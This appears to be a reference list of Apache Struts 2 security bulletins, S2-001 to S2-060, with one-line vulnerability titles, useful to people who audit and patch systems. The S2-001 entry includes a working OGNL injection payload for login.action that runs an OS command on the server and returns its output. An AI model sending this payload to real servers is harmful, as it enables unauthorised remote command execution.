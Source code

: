 S2-001 — Remote code exploit on form validation error
    path : login.action (post) 
    Affected : Xwork2 struts 2.0.0 ~ 2.0.8 
    payload : %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
    
S2-002 — Cross site scripting (XSS) vulnerability on <s:url> and <s:a> tags

S2-003 — XWork ParameterInterceptors bypass allows OGNL statement execution

S2-004 — Directory traversal vulnerability while serving static content

S2-005 — XWork ParameterInterceptors bypass allows remote command execution

S2-006 — Multiple Cross-Site Scripting (XSS) in XWork generated error pages

S2-007 — User input is evaluated as an OGNL expression when there's a conversion error

S2-008 — Multiple critical vulnerabilities in Struts2

S2-009 — ParameterInterceptor vulnerability allows remote command execution

S2-010 — When using Struts 2 token mechanism for CSRF protection, token check may be bypassed by misusing known session attributes

S2-011 — Long request parameter names might significantly promote the effectiveness of DOS attacks

S2-012 — Showcase app vulnerability allows remote command execution

S2-013 — A vulnerability, present in the includeParams attribute of the URL and Anchor Tag, allows remote command execution

S2-014 — A vulnerability introduced by forcing parameter inclusion in the URL and Anchor Tag allows remote command execution, session access and manipulation and XSS attacks

S2-015 — A vulnerability introduced by wildcard matching mechanism or double evaluation of OGNL Expression allows remote command execution.

S2-016 — A vulnerability introduced by manipulating parameters prefixed with "action:"/"redirect:"/"redirectAction:" allows remote command execution

S2-017 — A vulnerability introduced by manipulating parameters prefixed with "redirect:"/"redirectAction:" allows for open redirects

S2-018 — Broken Access Control Vulnerability in Apache Struts2

S2-019 — Dynamic Method Invocation disabled by default

S2-020 — Upgrade Commons FileUpload to version 1.3.1 (avoids DoS attacks) and adds 'class' to exclude params in ParametersInterceptor (avoid ClassLoader manipulation)

S2-021 — Improves excluded params in ParametersInterceptor and CookieInterceptor to avoid ClassLoader manipulation

S2-022 — Extends excluded params in CookieInterceptor to avoid manipulation of Struts' internals

S2-023 — Generated value of token can be predictable

S2-024 — Wrong excludeParams overrides those defined in DefaultExcludedPatternsChecker

S2-025 — Cross-Site Scripting Vulnerability in Debug Mode and in exposed JSP files

S2-026 — Special top object can be used to access Struts' internals

S2-027 — TextParseUtil.translateVariables does not filter malicious OGNL expressions

S2-028 — Use of a JRE with broken URLDecoder implementation may lead to XSS vulnerability in Struts 2 based web applications.

S2-029 — Forced double OGNL evaluation, when evaluated on raw user input in tag attributes, may lead to remote code execution.

S2-030 — Possible XSS vulnerability in I18NInterceptor

S2-031 — XSLTResult can be used to parse arbitrary stylesheet

S2-032 — Remote Code Execution can be performed via method: prefix when Dynamic Method Invocation is enabled.

S2-033 — Remote Code Execution can be performed when using REST Plugin with ! operator when Dynamic Method Invocation is enabled.

S2-034 — OGNL cache poisoning can lead to DoS vulnerability

S2-035 — Action name clean up is error prone

S2-036 — Forced double OGNL evaluation, when evaluated on raw user input in tag attributes, may lead to remote code execution (similar to S2-029)

S2-037 — Remote Code Execution can be performed when using REST Plugin.

S2-038 — It is possible to bypass token validation and perform a CSRF attack

S2-039 — Getter as action method leads to security bypass

S2-040 — Input validation bypass using existing default action method.

S2-041 — Possible DoS attack when using URLValidator

S2-042 — Possible path traversal in the Convention plugin

S2-043 — Using the Config Browser plugin in production

S2-044 — Possible DoS attack when using URLValidator

S2-045 — Possible Remote Code Execution when performing file upload based on Jakarta Multipart parser.

S2-046 — Possible RCE when performing file upload based on Jakarta Multipart parser (similar to S2-045)

S2-047 — Possible DoS attack when using URLValidator (similar to S2-044)

S2-048 — Possible RCE in the Struts Showcase app in the Struts 1 plugin example in Struts 2.3.x series

S2-049 — A DoS attack is available for Spring secured actions

S2-050 — A regular expression Denial of Service when using URLValidator (similar to S2-044 & S2-047)

S2-051 — A remote attacker may create a DoS attack by sending crafted xml request when using the Struts REST plugin

S2-052 — Possible Remote Code Execution attack when using the Struts REST plugin with XStream handler to handle XML payloads

S2-053 — A possible Remote Code Execution attack when using an unintentional expression in Freemarker tag instead of string literals

S2-054 — A crafted JSON request can be used to perform a DoS attack when using the Struts REST plugin

S2-055 — A RCE vulnerability in the Jackson JSON library

S2-056 — A crafted XML request can be used to perform a DoS attack when using the Struts REST plugin

S2-057 — Possible Remote Code Execution when alwaysSelectFullNamespace is true (either by user or a plugin like Convention Plugin) and then: results are used with no namespace and in same time, its upper package have no or wildcard namespace and similar to results, same possibility when using url tag which doesn’t have value and action set and in same time, its upper package have no or wildcard namespace.

S2-058 — Previous Security Bulletins contained incorrect affected release version ranges.

S2-059 — Forced double OGNL evaluation, when evaluated on raw user input in tag attributes, may lead to remote code execution.

S2-060 — Access permission override causing a Denial of Service when performing a file upload
